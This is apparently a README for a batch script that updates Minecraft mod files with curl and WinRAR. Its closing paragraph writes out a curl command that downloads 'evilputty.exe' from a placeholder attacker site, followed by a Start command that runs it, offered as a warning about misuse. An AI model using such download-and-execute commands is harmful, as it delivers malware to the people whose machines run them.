 # MSDOSUpdater
Using Curl we can use MSDOS to update missing or outdated files, relating to cyber security it can be use as malicious code as well.

Updater.bat is the main file we use to update the files in this use we are using it for a Minecraft mod file update. modfolder.txt is the path where we want to upload/update our files.
Winrarpath.txt is where we configure our WinRar directory path so that our Updater.bat can use the unrar function to unpack the newer files into our mod folder path.

with the help of curl we can output a file from the url link:
curl.exe --output index.html --url google.com

this line will get the html code of google.com and download it.

In a cyber security stand point this code can also be abused and used in a malicious way, the attacker can code it so that it downloads viruses, worms, trojans, RATs and more. once downloaded they can execute
these files using the command Start example: 

curl.exe --output evilputty.exe --url www.attackersite.com/evilputty.exe

Start evilputty.exe

this knowledge is for educational purposes only please do not use this code for harm.
